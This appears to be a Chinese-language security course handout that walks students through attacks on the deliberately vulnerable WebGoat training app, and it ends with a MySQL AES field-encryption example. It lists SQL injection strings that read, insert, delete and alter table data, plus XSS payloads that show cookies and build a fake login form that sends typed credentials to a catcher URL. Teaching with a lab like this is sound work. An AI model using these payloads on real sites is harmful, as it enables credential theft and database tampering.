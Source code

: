 # 資安概論實作

# 2.8 SQL Injection 與 XSS攻擊手法
## 測試環境建置
- 下載 Java
  - 網址：https://java.com/zh_TW/download/manual.jsp
  - 檔名：jre-8u281-windows-x64.exe
- 安裝 Java
  - 執行 jre-8u281-windows-x64.exe
- 下載 WebGoat 7.1
  - 網址：https://github.com/WebGoat/WebGoat/releases/tag/7.1
  - 檔名：webgoat-container-7.1-exec.jar
- 安裝 WebGoat 7.1
- 執行WebGoat
  - 開啟命令提示字元視窗並執行以下指令：
  - java -jar webgoat-container-7.1-exec.jar
- 開啟 Chrome 瀏覽器輸入 http://localhost:8080/WebGoat
- 登入帳號 guest 與通行碼 guest

## SQL Injection 測試步驟

數字欄位(點選 Injection Flaws > Numeric SQL Injection)
在網址列輸入 http://localhost:8080/WebGoat/start.mvc#attack/515/1100?Screen=75&menu=1200&station=101 or 1=1並檢視查詢的結果
文字欄位(點選 Injection Flaws > String SQL Injection)
在 Last Name 欄位輸入「S' or '1'='1」or 「1' or '1'='1」並檢視查詢的結果
在 Last Name 欄位輸入「alice';select * from salaries where '1'='1」並檢視查詢的結果
在 Last Name 欄位輸入「alice';insert into salaries (userid,salary)values ('steven',100);select * from salaries where '1'='1」檢視增加的結果
在 Last Name 欄位輸入「alice';delete from salaries where userid='steven」後，再重新輸入「jsmith' ; select * from salaries where '1'='1」並檢視刪除的結果
在 Last Name 欄位輸入「alice' ; ALTER table salaries add temp char(255); select * from salaries where '1'='1」並檢視增加的結果
XSS 測試步驟

Stored XSS(點選 Cross-Site Scripting(XSS) > Stored XSS Attack)
在 Title 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
Reflected XSS(點選 Cross-Site Scripting(XSS) > Phishing with XSS)
在 Search 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
Search 欄位輸入「<script>alert(document.cookie);</script>」並檢視顯示的 Cookie 值
在 Search 欄位輸入下列資料，輸入完成後，檢視輸入「Account」與「Password」的結果
</form> 
<script> 
function hack(){ 
    var user = document.loginform.user.value; 
    var pass = document.loginform.pass.value; 
    alert("User:" + user + "\nPass:" + pass); 
    XSSImage=new Image;   
XSSImage.src="http://localhost/webgoat/catcher?PROPERTY
=yes&user="+ user + "&password=" + pass; 
}   
</script> 
<form name="loginform" ><br><br><HR> 
<H3>這個功能需要您的帳號登入(Please  input  your  account, 
again):</H3 ><br><br> 
Account:<br><input type="text" name="user"><br> 
Password:<br><input type="password" name = "pass"><br> 
<input  type="submit"  name="login"  value="login" 
onclick="hack()"> 
</form><br><br><HR>

## 2.9 資料表欄位加密
- 資料表範例
- 建立資料表
```sql
CREATE TABLE employee( 
name char(20), 
username varbinary(255), 
password varbinary(255) 
) 
```
- 於資料表內建立資料，同時使用加密函數將機敏資料欄位加密
```
INSERT INTO employee (name, username, password) values 
("johnchang",AES_ENCRYPT("john","peter1234"), 
AES_ENCRYPT ("12345","peter1234")) 
```
- 顯示加密資料
```
SELECT *, AES_DECRYPT(username, 'peter1234') 
DECOE_username, AES_DECRYPT (password, 'peter1234') 
DECOE_password FROM employee
```
